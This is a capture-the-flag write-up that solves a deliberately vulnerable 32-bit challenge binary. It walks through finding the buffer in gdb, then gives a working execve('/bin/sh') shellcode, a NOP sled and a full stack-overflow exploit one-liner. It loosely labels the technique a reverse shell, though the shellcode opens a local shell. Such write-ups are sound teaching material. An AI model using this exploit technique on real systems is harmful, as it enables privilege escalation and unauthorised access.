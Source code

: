 # mission2
## Goal and instructions
Connect to bin.chall.necst.it port 22 via SSH as user [USERNAME]. You will find the files in /home/[USERNAME]/mission2.

Your goal is to read the file flag with the privileges of the group that owns the vulnerable binary.

## compiled options
The executable program is compiled in 32bit, the stack is executable and the canary is inactive.
```
gcc -fno-stack-protector -m32 -no-pie -O0 -z execstack -o mission2 mission2.c
```
## Code overview
The code for this challenge does not specify particular constraints on the string in input and does not check the input length, ad so it is vulnerable to overflow.
However the executable will verify, in the first 128 characters of the buffer (length 180), the absence of special characters as shown in the following function:
```
void check(char* buf) {
    // 0xb = execve
    // 0x5 = open
    for (int i = 0; i < 128; i++) {
        if (buf[i] == 0x0b || buf[i] == 0x05) {
            puts("You dirty hacker!");
            exit(0);
        } 
    }        
}
```

## Solution
The exploit is a classical [reverse shell attack](https://www.imperva.com/learn/application-security/reverse-shell/), the goal is to open a shell with the same privileges as the vulnerable binary and to execute *cat flag* from that shell.
To achieve it we need to include in the buffer an assembly code to open the shell and to overwrite the saved EIP (through overflow) with the address of our assembly code.
> **note:** we can't know precisely the shell code address, we will include a NOP Sled in the buffer and point in the middle of it.

In order to write a valid exploit it is necessary to:
* Use gdb to identify the buffer address on the stack, a way to do it is to fill it with 'A' and search for 0x41 on the stack as follows.
    * Use Python to save a string with 180 'A' in a file.
        ```
        python -c "print 'A' * 180 +'BBBB' " > ./writable/input.txt
        ```
    * Open gdb and set a breakpoint just after the executable reads the input string.
    * Run the executable with the file just created as input.
    * Print the stack and take note of the address.
        ```
        x/200xb $esp
        ```
* Include shell code in the buffer (in hex), a working example is provided below:
    ```
    \xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
    ```
    > **note:** verify the shell code is short enough to overcome the check function.

* Size correctly the NOP Sled to overwrite the saved EIP, changing the number of NOP in the following code until we have write "AAAA" in EBP + 4
    ```
    python -c "print '\x90' * 147 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + 'AAAA'"  > ./writable/input.txt
    ```
* Get an address in the middle of the NOP Sled and replace 'AAAA' with it, returning from the muda() function the processor will jump in the stack executing the NOP operation and so the shell code. Following is provided the complete exploit.
    ```
    (python -c "print '\x90' * 151 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x00\x00\x00\xb0\xdd\xff\xff'"; cat -) | ./mission2
    ```